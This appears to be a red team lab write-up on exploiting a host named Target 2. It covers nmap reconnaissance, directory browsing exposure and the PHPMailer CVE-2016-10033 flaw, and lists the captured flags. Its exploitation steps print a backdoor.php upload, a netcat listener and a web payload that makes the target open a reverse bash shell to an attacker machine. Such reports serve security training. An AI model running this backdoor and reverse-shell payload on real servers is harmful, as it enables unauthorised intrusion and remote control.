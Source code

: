 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    ---

    **Vendor Directory Index view from the browser** | PATH File: **Flag1** | **PHPMAILER version**
     ---|---|---
    ![1](/Images/4/6.PNG) | ![2](/Images/4/7.PNG) | ![4](/Images/4/9.PNG)    

---

**flag2:**  `flag2{6a8ed560f0b5358ecf844108048eb337}`

**flag3:**  `flag3{a0f568aa9de277887f37730d71520d9b}`

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. Execution of the script to exploit PHPMailer. This script will upload a file called backdoor.php to the target server allowing the execution of command injection attacks.

            ./exploit.sh

        ![15](/Images/4/15.PNG)

    2. Set the Command and Control Machine to listen using the NetCat command.

            nc -lnvp 4444

        ![16](/Images/4/16.PNG)

    19. Make that the exploited machine calls to the Command and Control Machine using a NetCat command embedded in a payload after running the payload in the browser.

            192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash  

        ![17](/Images/4/17.PNG)

    20. Sensitive information was found in the "www" and "WordPress uploads" directory    

        ![19](/Images/4/19.PNG)

        ![20](/Images/4/20.png)